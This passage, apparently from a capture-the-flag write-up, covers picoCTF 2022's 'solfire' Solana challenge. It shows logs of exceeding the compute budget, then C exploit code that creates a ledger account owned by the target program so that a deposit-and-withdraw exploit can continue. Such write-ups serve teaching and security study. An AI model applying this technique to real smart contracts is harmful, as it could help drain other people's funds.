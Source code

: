 **Aha! We started with 10 lamports and now have 18! Victory is within our grasp!**
> **Narrator**: *Or is it?*

## Problems, Problems, Problems

Unfortunately, this is about when our luck runs out. Since you only have 9 lamports, you can't transfer more than that to yourself. You can keep calling deposit to rack up the amount you can withdraw, but it doesn't take long before you start seeing something like the following in your error logs:

```
    Program log: Solfire start
    Program Ew7GBvH4DQyPF7SMdV398ymLoDpYLgiHg4TNBWwee6Da consumed 17258 of 17258 compute units
    Program failed to complete: exceeded maximum number of instructions allowed (17258) at instruction #1131
    Program Ew7GBvH4DQyPF7SMdV398ymLoDpYLgiHg4TNBWwee6Da failed: Program failed to complete
    Program 5HXGNZ1WizZFrqWHSd6xWSSnVBwVHBHBYVnfRHuDJj55 consumed 200000 of 200000 compute units
    Program 5HXGNZ1WizZFrqWHSd6xWSSnVBwVHBHBYVnfRHuDJj55 failed: Program failed to complete
```
{:.contains-term}

The key part being `"consumed 200000 of 200000 compute units"`. Apparently, there is an upper-limit on the number of computations a given instruction/transaction is allowed. There are some mechanisms to bump this number up slightly, but they are required to be entered into the transaction directly and not executed as a cross-program invocation. The main problem here is that every call to `solfire` is incredibly expensive - consuming over 20% of our total budget. As pointed out in [Part I]({% link _reference/Hacking-101/picoCTF-2022-Greatest-Hits/solfire.md %}) - this is likely due to the use of b58encode inside the contract itself.

## A path forward

In trying desperately to find ways to either increase the compute budget or reduce the costs of computing, we come to the realization that calling `handle_create` is not actually necessary! The requirements for the ledger account are simply that the account is owned by the `solfire` program. We can actually just call `CreateAccount` ourselves and specify `solfire` as the owner. This saves us a whole call into the `solfire` entrypoint!

```c
void solfire_create(SolParameters *params, uint8_t ledger_nonce)
{
  sol_log("crEate!");
  
  const SolSignerSeed seed = {&ledger_nonce, 1};
  const SolSignerSeeds signers_seeds = {&seed, 1};

  SolAccountMeta meta[] = {
    {params->ka[USER].key /* user */, true, true},
    {params->ka[LEDGER].key /* ledger */, true, true}
  };
  uint8_t buf[0x34] = {0};
  buf[0] = 0; //[0-4] code
  buf[4] = 0x0; //[4-12] lamports to transfer
  buf[12] = 0x00; //[12-20] SIZE TO ALLOCATE!
  buf[13] = 0x28; // 0x2800 in little endian - same as handle_create
  // SET OWNER TO BE SOLFIRE PROGRAM - THIS IS REQUIRED FOR EXPLOIT TO WORK
  sol_memcpy(&buf[20], params->ka[SOLFIRE].key /* program */, 32); //[20-52] new owner

  const SolInstruction instruction = {params->ka[SYSTEM].key /* system */,
                                      meta, SOL_ARRAY_SIZE(meta),
                                      buf,  SOL_ARRAY_SIZE(buf)};

  sol_invoke_signed(&instruction, params->ka, params->ka_num, &signers_seeds, 1);
}
```
